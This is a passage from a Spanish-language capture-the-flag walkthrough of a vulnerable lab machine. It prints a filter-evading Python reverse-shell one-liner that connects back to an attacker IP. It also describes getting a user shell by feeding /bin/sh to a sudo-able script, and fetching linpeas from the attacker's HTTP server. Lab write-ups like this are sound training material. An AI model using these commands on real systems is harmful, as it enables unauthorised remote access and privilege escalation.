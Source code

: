 ![image](https://user-images.githubusercontent.com/99112106/181498990-525f5264-7b59-448f-9057-a6b4fe91ea72.png)

(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

Por tanto, nuestra reverse shell sería la siguiente:

```
p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.180.82",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Tras poner el puerto a la escucha y ejecutar la revershel shell, recibimos nuestra shell:

![image](https://user-images.githubusercontent.com/99112106/181499043-3539141a-363d-4ca0-8ac2-f4e0e475216c.png)

Aparentemente podemos ejecutar con privilegios de sudo el script "helpline.sh" ubicado en el home path del usuario Apaar:

![image](https://user-images.githubusercontent.com/99112106/181499069-ffe093ee-7680-411f-aa4e-f525796b0c52.png)

El script tiene el siguiente contenido:

![image](https://user-images.githubusercontent.com/99112106/181499078-db89db85-90c2-4819-96f6-2cfef62f4b09.png)

Si ejecutamos el script como Apaar e introducimos el contenido "/bin/sh" como respuesta al script, obtendremos una shell con Apaar:

![image](https://user-images.githubusercontent.com/99112106/181499091-48216193-e109-4ab4-8ece-8954bc2c7c8c.png)

Llegados a este punto, podemos retirar la primera bandera;

![image](https://user-images.githubusercontent.com/99112106/181499104-bfe360bb-f6ec-4470-9a0b-a192edcf0fef.png)

Es el momento de empezar nuestra escalada hacia root. Para ello, levantaré un servidor HTTP con Python en mi máquina y descargaré en el servidor vulnerable el script "linpeas":

![image](https://user-images.githubusercontent.com/99112106/181499119-01498fe7-65a5-4a17-88bc-00ba9fa8ee17.png)

LinPeas es un script que nos permite automatizar el escaneo de vulnerabilidades o posibles vectores de ataque dentro de una máquina linux.

Una vez lo tenemos, le otorgamos permisos de ejecución y le damos caña:

![image](https://user-images.githubusercontent.com/99112106/181499170-f65d2c86-a6fb-4365-b760-876e2bff85b8.png)

Observamos que el puerto 3306 se encuentra abierto, por lo que debe haber un servidor MySQL corriendo... pero necesitamos credenciales...

![image](https://user-images.githubusercontent.com/99112106/181499181-348e65c1-ac83-497f-8cdf-6fa75b9ddcf2.png)

Decidí empezar a enumerar de nuevo desde nuestro primera entrada en "/var/www/html/secret" donde encontré un directorio interesante, "/var/www/files". 

![image](https://user-images.githubusercontent.com/99112106/181499198-902f7b79-6942-4e4b-857b-40a347686a89.png)
